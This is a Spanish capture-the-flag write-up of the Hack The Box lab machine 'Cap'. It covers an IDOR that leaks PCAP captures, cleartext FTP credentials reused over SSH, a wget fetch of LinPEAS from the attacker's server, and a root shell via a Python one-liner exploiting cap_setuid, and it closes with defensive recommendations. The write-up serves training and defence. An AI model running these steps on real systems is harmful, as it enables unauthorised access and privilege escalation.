# Cap — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Linux  
**Autor de la máquina:** InfoSecJack  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · IDOR · PCAP Analysis · Wireshark · Credenciales en texto claro · SSH · Linux Capabilities · `cap_setuid` · Privilege Escalation

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — IDOR en `/data/<id>`](#3-acceso-inicial--idor-en-dataid)
4. [Análisis del PCAP con Wireshark](#4-análisis-del-pcap-con-wireshark)
5. [Acceso por SSH y flag de usuario](#5-acceso-por-ssh-y-flag-de-usuario)
6. [Escalada de privilegios — `cap_setuid` en Python](#6-escalada-de-privilegios--cap_setuid-en-python)
7. [Post-explotación y flags](#7-post-explotación-y-flags)
8. [Lección aprendida](#8-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.26.210
```



Salida obtenida:

```text
64 bytes from 10.129.26.210: icmp_seq=1 ttl=63 time=33.3 ms
```

> 💡 El valor `TTL=63` suele indicar que estamos frente a una máquina **Linux** (TTL inicial 64 menos un salto de red).

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.26.210 -oN AllPorts
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-vvv` | Máximo nivel de verbosidad |
| `--min-rate 5000` | Fuerza una velocidad mínima de 5000 paquetes por segundo |
| `--open` | Muestra solo puertos abiertos |
| `-n` | Evita resolución DNS |
| `-p-` | Escanea los 65535 puertos TCP |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

> 💡 La presencia de FTP + SSH + HTTP en la misma máquina es una pista clásica: el FTP suele ser el vector silencioso (credenciales filtradas, anonymous login, captura de tráfico en claro).

---

## 2. Enumeración del servicio web

Una vez identificados los puertos abiertos, realizamos un escaneo más profundo con detección de versiones y scripts NSE.

```bash
nmap -sS -sCV -T5 -p21,22,80 10.129.26.210 -oN Ports
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-sCV` | Ejecuta detección de versiones y scripts NSE |
| `-T5` | Timing agresivo para acelerar el escaneo |

Salida relevante:

```text
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
```

> 💡 El servidor web está detrás de **gunicorn** (WSGI Python) — fuerte indicio de una aplicación Flask/Django. Esto suele venir acompañado de endpoints REST con identificadores numéricos en la URL: terreno ideal para detectar **IDOR**.

---

### Exploración manual del sitio

Accedemos desde el navegador al puerto `80`.

```text
http://10.129.26.210
```

La página de inicio nos lleva directamente a un **dashboard** sin necesidad de autenticarnos, sesionado como un usuario llamado **Nathan**.



El menú lateral revela tres funcionalidades muy llamativas:

| Sección | Qué hace |
|---|---|
| **Security Snapshot (5 Second PCAP + Analysis)** | Captura tráfico durante 5 segundos y lo deja descargable como `.pcap` |
| **IP Config** | Ejecuta `ifconfig` en el servidor |
| **Network Status** | Ejecuta `netstat` en el servidor |

> 💡 Un servicio web que genera capturas PCAP del propio host es una idea **explosiva**: si esos PCAP contienen tráfico de servicios en claro (FTP, HTTP, Telnet), cualquiera que pueda descargarlos obtiene credenciales gratis.

---

## 3. Acceso inicial — IDOR en `/data/<id>`

Al pulsar "Security Snapshot" se nos redirige a una URL con un identificador numérico:

```text
http://10.129.26.210/data/<N>
```

Donde `<N>` representa la captura asociada a la sesión actual. La aplicación **no verifica** que ese ID pertenezca al usuario autenticado: cambiando manualmente el número podemos acceder a las capturas de **cualquier usuario**, incluido el ID `0` (típicamente reservado al primer usuario / administrador).

```text
http://10.129.26.210/data/0
```



### Explicación de la vulnerabilidad

| Componente | Función / Fallo |
|---|---|
| `/data/<id>` | Endpoint que devuelve una captura PCAP asociada a un ID |
| Sin verificación de propietario | El backend asume que el cliente solo pedirá su propio ID |
| ID predecible y secuencial | Permite enumerar las capturas de otros usuarios trivialmente |
| Botón **Download** | Sirve directamente el `.pcap` para descargar |

> 💡 Esta clase de vulnerabilidad se conoce como **IDOR (Insecure Direct Object Reference)** y es uno de los Top 10 de OWASP. La capa de autorización se omite porque el código se apoya en el ID que envía el cliente sin contrastarlo con la sesión.

Descargamos el PCAP del ID `0`, que contendrá tráfico generado por otro usuario.

---

## 4. Análisis del PCAP con Wireshark

Abrimos el fichero descargado en Wireshark y filtramos por FTP.



```text
ftp
```

La conversación muestra un cliente realizando login contra el servidor FTP local. Pulsamos botón derecho sobre cualquier paquete FTP → **Follow → TCP Stream** para reconstruir toda la sesión:



```text
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
SYST
215 UNIX Type: L8
PORT 192,168,1,3,...
LIST
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
PORT 192,168,1,3,...
RETR user.txt
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
```

> 💡 **FTP envía las credenciales en texto plano**. Combinado con la IDOR del paso anterior, recuperamos directamente el usuario (`nathan`) y su contraseña (`Buck3tH4TF0RM3!`) sin esfuerzo. El mismo usuario suele reutilizar credenciales para SSH.

---

## 5. Acceso por SSH y flag de usuario

Probamos las credenciales contra el servicio SSH detectado en el reconocimiento inicial.

```bash
ssh nathan@10.129.26.210
# Password: Buck3tH4TF0RM3!
```



Recibimos un prompt totalmente interactivo en **Ubuntu 20.04 LTS**. Vamos directamente a por la flag de usuario:

```bash
cat ~/user.txt
```



✅ Flag de usuario obtenida.

> 💡 La reutilización de la misma contraseña para servicios distintos (FTP y SSH) es uno de los errores operativos más frecuentes. Un compromiso en el canal débil (FTP claro) tira el canal fuerte (SSH cifrado).

---

## 6. Escalada de privilegios — `cap_setuid` en Python

### Enumeración con LinPEAS

Para acelerar el descubrimiento de vectores de escalada usamos **LinPEAS**, que automatiza decenas de checks. Lo transferimos desde nuestra máquina:

**Atacante:**

```bash
cd /usr/share/peass/linpeas
python3 -m http.server 1234
```

**Víctima:**

```bash
cd /tmp
wget http://10.10.14.63:1234/linpeas.sh
```



Damos permisos de ejecución y lanzamos:

```bash
chmod +x linpeas.sh
./linpeas.sh
```



---

### Detección — `cap_setuid` sobre Python

En la salida de LinPEAS destaca un hallazgo crítico bajo la sección *"Files with capabilities"*:



```text
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

### Explicación de Linux Capabilities

Linux *capabilities* son una forma granular de dar privilegios concretos a un binario sin tener que marcarlo como **SUID root**. Cuando un binario tiene **`cap_setuid+ep`**, puede invocar la syscall `setuid()` para cambiar su UID efectivo a cualquier valor (incluido `0` = root).

| Capability | Significado |
|---|---|
| `cap_setuid` | Permite cambiar el UID del proceso a cualquier valor |
| `cap_net_bind_service` | Permite atar sockets a puertos < 1024 sin ser root |
| `+eip` | Effective + Inheritable + Permitted (toda la suite) |

> 💡 Que **Python tenga `cap_setuid`** es equivalente a tener un binario SUID root, pero peor: cualquier script Python lanzado por el intérprete hereda esa capacidad. Es el `chmod +s /bin/bash` del mundo moderno.

---

### Explotación

Lanzamos el intérprete con la ruta exacta detectada, llamamos a `os.setuid(0)` y caemos en una shell `/bin/bash`:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

O paso a paso:

```python
nathan@cap:/tmp$ /usr/bin/python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15)
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
root@cap:/tmp# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```



✅ **Compromiso total**: `uid=0(root)`. El `gid` sigue siendo el del usuario porque `setuid` solo afecta al UID efectivo, pero a efectos de privilegios ya somos `root`.

> 💡 La técnica está documentada en [GTFOBins → python](https://gtfobins.github.io/gtfobins/python/) bajo la sección *Capabilities*. Cualquier binario interpretable (`perl`, `ruby`, `node`, `php`) con `cap_setuid` se explota igual cambiando la función equivalente a `setuid(0)`.

---

## 7. Post-explotación y flags

Con privilegios de `root` localizamos la flag final:

```bash
cd /root
cat root.txt
```



✅ Máquina completada.

---

## 8. Lección aprendida

`Cap` es un ejemplo perfecto de cómo **una mala lógica de autorización** (IDOR) puede romper un sistema entero sin necesidad de exploits ni CVEs. La cadena es de manual:

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| **IDOR** en `/data/<id>` | Aplicación web (Flask + gunicorn) | Acceso a capturas PCAP de otros usuarios |
| **FTP en texto plano** | Puerto 21 (vsftpd 3.0.3) | Credenciales visibles en el PCAP |
| **Reutilización de contraseña** | nathan en FTP **y** en SSH | Movimiento lateral inmediato |
| **`cap_setuid` sobre Python** | `/usr/bin/python3.8` | Escalada directa a root |

---

## Recomendaciones defensivas

- En aplicaciones web con endpoints tipo `/resource/<id>`, **siempre** validar en el backend que `id.owner == session.user_id` antes de devolver el recurso. Tests automatizados de IDOR deberían ser parte del CI.
- Sustituir FTP por **SFTP** (SSH) o **FTPS** (TLS). Cualquier protocolo en texto claro que transporte credenciales debe considerarse comprometido por defecto.
- Forzar contraseñas distintas por servicio o, mejor, autenticación basada en clave SSH y deshabilitar password auth.
- Auditar **Linux capabilities** periódicamente con `getcap -r / 2>/dev/null`. Cualquier binario con `cap_setuid`, `cap_dac_override`, `cap_dac_read_search` debe revisarse a fondo.
- Nunca conceder `cap_setuid` a intérpretes (`python`, `perl`, `ruby`, `node`): el ataque es trivial.
- Implementar monitorización de invocaciones a `setuid()`: cualquier proceso no root que cambie a UID 0 debería disparar una alerta.
- Considerar contenedores con `--cap-drop=ALL` y `securityContext.allowPrivilegeEscalation: false` (Kubernetes) para neutralizar este tipo de escaladas.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
